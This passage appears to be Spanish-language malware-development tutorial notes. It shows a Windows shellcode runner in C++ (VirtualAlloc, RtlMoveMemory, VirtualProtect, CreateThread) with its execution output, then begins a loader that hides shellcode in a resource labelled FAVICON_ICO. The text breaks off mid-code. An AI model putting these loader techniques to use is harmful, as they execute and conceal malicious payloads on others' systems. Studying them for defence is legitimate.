 ```c++
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("\nSotred payload in .data section %-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("\n [VirtualAlloc] of new moemory region %-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);
	getchar();
	printf(" [RtlMoveMemory] copy data \n");
	RtlMoveMemory(exec_mem, payload, payload_len);
	printf(" [VirtualProtect] Include execution and read privileges PAGE_EXECUTE_READ \n");
	getchar();
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	printf(" [CreateThread] Exec stored payload \n");
	getchar();
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```
Salida de la ejecución:
```
Sotred payload in .data section payload addr         : 0x00007FF63C66D000

 [VirtualAlloc] of new moemory region exec_mem addr        : 0x000002D511870000

 [RtlMoveMemory] copy data
 [VirtualProtect] Include execution and read privileges PAGE_EXECUTE_READ

 [CreateThread] Exec stored payload

```
## Inyeccion en .rsc

Código de ejemplo, el shellcode se almacena dentro de una librería externa al código fuente:
```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "resources.h"

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;
	HGLOBAL resHandle = NULL;
	HRSRC res;
	
	unsigned char * payload;
	unsigned int payload_len;
	printf("\n Extract data from external resource FAVICON_ICO");
	res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
	printf("\n Extract data from external resource %-20s ", res);
	resHandle = LoadResource(NULL, res);
```